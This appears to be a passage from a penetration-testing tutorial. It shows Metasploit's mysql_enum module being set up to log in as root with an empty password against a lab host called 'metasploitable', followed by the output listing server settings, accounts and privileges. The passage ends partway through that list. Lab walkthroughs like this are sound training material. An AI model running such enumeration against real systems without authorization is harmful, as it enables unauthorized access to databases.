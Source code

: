 Module options (auxiliary/admin/mysql/mysql_enum):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOST                      yes       The target address
   RPORT     3306             yes       The target port
   USERNAME                   no        The username to authenticate as

msf auxiliary(mysql_enum) > set PASSWORD ''
PASSWORD =>
msf auxiliary(mysql_enum) > set USERNAME root
USERNAME => root
msf auxiliary(mysql_enum) > set RPORT 3306
RPORT => 3306
msf auxiliary(mysql_enum) > set RHOST 10.0.0.27
RHOST => 10.0.0.27

Now run the exploit and check out the info:

msf auxiliary(mysql_enum) > run

[*] Running MySQL Enumerator...
[*] Enumerating Parameters
[*] 	MySQL Version: 5.0.51a-3ubuntu5
[*] 	Compiled for the following OS: debian-linux-gnu
[*] 	Architecture: i486
[*] 	Server Hostname: metasploitable
[*] 	Data Directory: /var/lib/mysql/
[*] 	Logging of queries and logins: OFF
[*] 	Old Password Hashing Algorithm OFF
[*] 	Loading of local files: ON
[*] 	Logins with old Pre-4.1 Passwords: OFF
[*] 	Allow Use of symlinks for Database Files: YES
[*] 	Allow Table Merge: YES
[*] 	SSL Connections: Enabled
[*] 	SSL CA Certificate: /etc/mysql/cacert.pem
[*] 	SSL Key: /etc/mysql/server-key.pem
[*] 	SSL Certificate: /etc/mysql/server-cert.pem
[*] Enumerating Accounts:
[*] 	List of Accounts with Password Hashes:
[*] 		User: debian-sys-maint Host:  Password Hash:
[*] 		User: root Host: % Password Hash:
[*] 		User: guest Host: % Password Hash:
[*] 	The following users have GRANT Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following users have CREATE USER Privilege:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following users have RELOAD Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following users have SHUTDOWN Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following users have SUPER Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following users have FILE Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %